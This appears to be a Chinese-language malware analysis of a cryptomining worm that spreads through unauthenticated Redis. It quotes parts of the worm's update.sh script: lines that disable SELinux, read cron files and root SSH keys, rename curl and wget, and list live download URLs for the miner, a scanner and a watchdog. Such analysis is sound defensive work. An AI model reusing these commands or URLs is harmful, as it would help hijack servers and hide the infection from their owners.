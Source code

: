Redis因配置不当可以导致未授权访问，被攻击者恶意利用。如果Redis以root身份运行，在root用户密码被暴力破解后或者没有开启认证时，会直接导致Redis服务暴露在公网，直接通过SSH登录受害服务器，Redis未授权访问后下载病毒核心脚本update.sh



```
#!/bin/sh
setenforce 0 2>dev/null
echo SELINUX=disabled > /etc/sysconfig/selinux 2>/dev/null
sync && echo 3 >/proc/sys/vm/drop_caches
```


首先关闭SELINUX防火墙，释放更多内存用于挖矿



```
crondir='/var/spool/cron/'"$USER"
cont=`cat ${crondir}`
ssht=`cat /root/.ssh/authorized_keys`
echo 1 > /etc/sysupdates
rtdir="/etc/sysupdates"
bbdir="/usr/bin/curl"
bbdira="/usr/bin/cur"
ccdir="/usr/bin/wget"
ccdira="/usr/bin/wge"

mv /usr/bin/wget /usr/bin/get
mv /usr/bin/xget /usr/bin/get
mv /usr/bin/get /usr/bin/wge
mv /usr/bin/curl /usr/bin/url
mv /usr/bin/xurl /usr/bin/url
mv /usr/bin/url /usr/bin/cur
```

将一些命令和文件地址定义为变量，并且将一些机器中的地址转移到程序定义的地址中，方便程序利用。



```
miner_url="https://de.gsearch.com.de/api/sysupdate"
miner_url_backup="http://185.181.10.234/E5DB0E07C3D7BE80V520/sysupdate"
miner_size="854364"
sh_url="https://de.gsearch.com.de/api/update.sh"
sh_url_backup="http://185.181.10.234/E5DB0E07C3D7BE80V520/update.sh"
config_url="https://de.gsearch.com.de/api/config.json"
config_url_backup="http://185.181.10.234/E5DB0E07C3D7BE80V520/config.json"
config_size="4954"
scan_url="https://de.gsearch.com.de/api/networkservice"
scan_url_backup="http://185.181.10.234/E5DB0E07C3D7BE80V520/networkservice"
scan_size="2584072"
watchdog_url="https://de.gsearch.com.de/api/sysguard"
watchdog_url_backup="http://185.181.10.234/E5DB0E07C3D7BE80V520/sysguard"
watchdog_size="1929480"
```

挖矿病毒程序的下载地址，以及文件的大小
